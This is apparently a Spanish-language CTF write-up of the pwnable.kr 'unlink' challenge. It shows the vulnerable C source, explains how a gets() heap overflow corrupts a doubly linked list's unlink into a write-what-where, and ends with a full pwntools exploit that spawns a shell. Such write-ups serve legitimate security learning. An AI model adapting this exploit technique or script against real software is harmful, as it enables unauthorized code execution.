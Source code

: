 ```yaml
---
layout: post
title: pwnable.kr unlink - Heap Overflow via Double-Linked list y Write-What-Where
author: c4rta
date: 2023-04-16
categories: [Explotacion binaria]
tags: [heap overflow, double-linked list, write-what-where]
image: 
  path: /assets/img/unlink/waifu.gif
---
```

{:.lead}

Este es un desafio de los gordos, como ayuda, te dejo este gran writeup el cual me ayudo bastante a entender que pedo: [picale aqui](https://youtu.be/81_BMRXDw3c)

## Analisis

Se nos proporciona el codigo fuente del programa, donde primeramente se esta definiendo una estructura llamada ```OBJ```:

```c
typedef struct tagOBJ{
	struct tagOBJ* fd;
	struct tagOBJ* bk;
	char buf[8];
}OBJ;
```

Primero se definen dos punteros a la estructura ```tagOBJ``` llamados ```fd``` y ```bk``` y un arreglo de char (que seria el buffer) con una longitud de 8 bytes, los punteros ```fd``` y ```bk``` son usados normalmente para implementar una lista doblemente enlazada, y para eso esta esta funcion:

```c
void unlink(OBJ* P){
	OBJ* BK;
	OBJ* FD;
	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;
}
```

Donde el puntero ```fd``` apunta al siguiente elemento, y ```bk``` apunta al elemento anterior.

Codigo completo:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ{
	struct tagOBJ* fd;
	struct tagOBJ* bk;
	char buf[8];
}OBJ;

void shell(){
	system("/bin/sh");
}

void unlink(OBJ* P){
	OBJ* BK;
	OBJ* FD;
	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;
}
int main(int argc, char* argv[]){
	malloc(1024);
	OBJ* A = (OBJ*)malloc(sizeof(OBJ));
	OBJ* B = (OBJ*)malloc(sizeof(OBJ));
	OBJ* C = (OBJ*)malloc(sizeof(OBJ));

	// double linked list: A <-> B <-> C
	A->fd = B;
	B->bk = A;
	B->fd = C;
	C->bk = B;

	printf("here is stack address leak: %p\n", &A);
	printf("here is heap address leak: %p\n", A);
	printf("now that you have leaks, get shell!\n");
	// heap overflow!
	gets(A->buf);

	// exploit this unlink!
	unlink(B);
	return 0;
}
```
Se esta haciendo basicamente esto:

- Crea tres nodos (A, B y C)
- Se crea una lista doblemente enlazada con A en primer lugar, B en segundo y C en tercero.
- Muestra la dirección donde el puntero ```&A``` cuando mantiene en el stack como una variable local
- Muestra la dirección en la que se guarda el nodo A en el heap.
- Obtiene un imput el cual puede sobreescribir la memoria que comienza con ```A->buf``` en el heap
- Llama a unlink con el nodo B

### Vulnerabilidad

En la funcion main se esta haciendo un llamado a la funcion gets: ```gets(A->buf);```, donde se esta ocasionando un heap overflow a partir de del nodo A (```A->buf```).

Debido a que ocurrio un heap overflow y el programa soporta una operacion de desvinculacion en el nodo B:
```c
FD->bk=BK;
BK->fd=FD;
```
Debemos de explotar la funcion ```unlink```, donde podemos sobreescribir el ```fd``` y el ```bk``` del nodo B, cuando el nodo B se desvincula, ocurre que:

- El nodo apuntado por B->fd(antes C) cambiará a B->bk(antes A)
- El nodo apuntado por B->bk(antes A) cambiará a B->fd(antes C)

**Metodo de explotacion 1 (incorrecto)**

Podriamos hacer que B->bk apunte a una direccion de ```ebp``` y despues sobrescribirlo con la dirección de la funcion ```shell``` en ```B->fd```

Pero no se puede, si ponemos la direccion de la funcion ```shell()``` en ```B->fd``` o ```B->bk```, no se ve a poder ejecutar por que cuando se ejecute ```BK->fd=FD```, la funcion ```unlink``` tratara de escribir en la misma direccion.

Debido a esto, debemos de hacer que ```B->fd``` o ```B->bk``` siempre apunten a una direccion de memoria con permisos de escritura, donde debemos de tener en cuenta que ```B->bk``` se escribira 4 bytes despues de la direccion de ```B->fd```

## Analisis con GDB

En las ultimas linea de la funcion main, cuando se hace el llamado de ```unlink```:

![](/assets/img/unlink/unlink1.png)

Tenemos algo interesante, El contenido en la dirección ```ebp-4``` se copia en ```ecx``` y antes de que devuelva el valor ```ecx-4``` se asigna al ```esp```, entonces el programa regresará a la dirección que este en ```ecx-4```.

## Write-What-Where

Una vez ejecutando el programa y pasandole varios bytes hasta que ocurra el overflow, podemos ver que tenemos el control de ```eax``` y ```edx```:

![](/assets/img/unlink/unlink2.png)

Y si continuamos la ejecucion del programa, lo que tiene el ```eip``` es la direccion ```0x8048521``` y que ejecuta la intruccion: ```DWORD PTR [eax+0x4], edx```, pero como ```edx``` tiene una direccion invalida entonces va a petar. Y aqui es cuando la instruccion ```mov``` nos proporciona la condicion ```write-what-where```, asi que con esta condicion podemos sobreescribir el ```ebp-0x4``` de cuando de hace el llamado a la funcion ```unlink``` en la funcion ```main```.

Y esto es bastante interesante por que si sobrescribimos el valor de ```ebp-4``` con una dirección del heap, entonces el flujo de ejecución ira a lo que esté escrito 4 bytes antes de lo que apunta esa dirección, y como tenemos control total sobre el heap, podemos escribir la dirección de la funcion ```shell()``` en esa parte.

## Explotacion

Entonces tenemos que:

- Sobreecribiremos ```B->bk``` con la dirección ```ebp-4```
- Agregar 0x10 al stack para llegar al valor que queremos
- Hacer que ```B->fd``` sea igual a una dirección del heap que podamos controlar, más 4 bytes, y podemos usar ```A->buf```
- Y por ultimo escribir la dirección de la función ```shell()``` en A->buf.

### Exploit

```python
from pwn import *

s = ssh(user='unlink', host='pwnable.kr', port=2222, password='guest')
p = s.process('/home/unlink/unlink')

p.recvuntil(': ')
stack = int(p.recv(10), 16)

p.recvuntil(': ')
heap = int(p.recv(10), 16)

p.recv()

shell_addr = 0x080484eb
buf = heap+8
ebp = stack+20

payload = p32(shell_addr) # A->buf
payload += b'A'*12
payload += p32(buf+4) # B->fd
payload += p32(ebp-4) # B->bk

p.sendline(payload)
p.interactive()
```

![](/assets/img/unlink/exploit.png)

Eso ha sido todo, gracias por leer ❤

![](/assets/img/unlink/waifu.gif)

